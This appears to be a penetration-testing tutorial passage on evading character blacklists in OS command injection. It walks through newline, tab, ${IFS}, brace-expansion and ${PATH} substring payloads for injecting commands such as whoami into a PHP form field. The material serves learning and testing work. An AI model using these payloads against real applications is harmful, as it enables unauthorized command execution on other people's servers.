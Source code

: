 ### Blacklisted Characters 

A web application can have a black list of characters, something similar to:
```php
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```

## Bypassing Space Filters 

Most of the injection operators are indeed blacklisted. However, the new-line character is usually not blacklisted, as it may be needed in the payload itself. Once we have found a operator that can go through we can start our attack `...%0a whoami`.

Probably, the space is also blacklisted. Even though, there are ways to bypassing it:
- **Using Tabs **: using tabs (`%09`) instead of spaces is a technique that may work. The payload will be `...%0a%09whoami`.
- **Using $IFS** (Linux Environment Variable): if we use ${IFS} where the spaces should be, the variable should be automatically replaced with a space. The payload will be `...%0a${IFS}whoami`.
- **Using Brace Expansion**: automatically adds spaces between arguments wrapped between braces, as follows: `{ls,-la}`. So the payload will be: `...%0a{ls,-la}`.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) have even more bypassing techniques.

## Bypassing Other Blacklisted Characters 

A very commonly blacklisted character is the slash (`/`) or backslash (`\`) character, as it is necessary to specify directories in Linux or Windows. 

### Linux 

One such technique we can use for replacing slashes (or any other character) is through **Linux Environment Variables** like we did with `${IFS}`. While `${IFS}` is directly replaced with a space, there's no such environment variable for slashes or semi-colons. However, these characters may be used in an environment variable, and we can specify start and length of our string to exactly match this character. For example, the variable **$PATH**.
```console
zero@pio$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

To get the slash:
```console
zero@pio$ echo ${PATH:0:1}

/
```
